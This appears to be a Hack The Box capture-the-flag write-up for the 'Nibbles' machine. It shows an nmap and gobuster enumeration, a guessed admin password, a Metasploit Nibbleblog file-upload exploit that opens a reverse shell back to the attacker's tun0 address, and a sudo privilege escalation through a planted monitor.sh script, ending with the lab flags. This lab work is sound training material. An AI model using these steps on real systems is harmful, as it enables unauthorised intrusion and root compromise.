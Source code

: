 ## IP

> 10.10.10.75

## nmap scan

```
nmap -T4 -A 10.10.10.75 -Pn
```

```a
Nmap scan report for 10.10.10.75
Host is up (0.060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## System Info 
>
 OS: Linux

## Open Ports
       
> 22 open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

SSH

>80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

HTTP

## HTTP

> http://10.10.10.75/

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Nibble/Pasted%20image%2020210801184218.png)

If we see the source we can find 

> !-- /nibbleblog/ directory. Nothing interesting here! 

So lets check it!
 http://10.10.10.75/nibbleblog/

![Image 2](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Nibble/Pasted%20image%2020210801184400.png)

We can perform a gobuster on the site

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt
```

> /.hta                 
/.htaccess          
/.htpasswd           
/admin                 [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php                                     
/content              [--> http://10.10.10.75/nibbleblog/content/]
/index.php                                              
/languages          [--> http://10.10.10.75/nibbleblog/languages/]
/plugins               [--> http://10.10.10.75/nibbleblog/plugins/]  
/README                                        
/themes                [--> http://10.10.10.75/nibbleblog/themes/]

We can try to connect into the admin site 

> username: admin

We can try different passwords, I tried nibbles and it worked! 
> password: nibbles 

Lets search in searchsploit

```searchsploit nibble```

> Nibbleblog 3 - Multiple SQL Injections                                           | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                            | php/remote/38489.rb

An arbitrary file upload on metasploit, lets search for it 

### Metasploit 

```
msfconsole
use multi/http/nibbleblog_file_upload
set password nibbles
set username admin
set rhosts 10.10.10.75
set lhost tun0
set targeturi /nibbleblog
run
```

We have a shell!!

### Post Exploitation

```getuid```

> Server username: nibbler (1001)

We are not root

```sysinfo```

>Computer    : Nibbles                                                                                              
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64                  
Meterpreter : php/linux

### Finding user.txt

```
shell
cd home/nibbler
cat user.txt
```

> 5d9d3519f7fdf0a13d25bac3224e41af

### Getting root

```history```

> Command not found 

```sudo -l```

> User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
	
So we can root monitor.sh as root! Lets create it

```
cd /home/nibbler
mkdir personal
cd personal
mkdir stuff
cd stuff
echo "bash -i" > monitor.sh
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

```whoami```

> root

We are root!

### Finding root.txt

```
cd /root
cat root.txt
```

> aaba32402a5016d5b621fa8b965d680a  
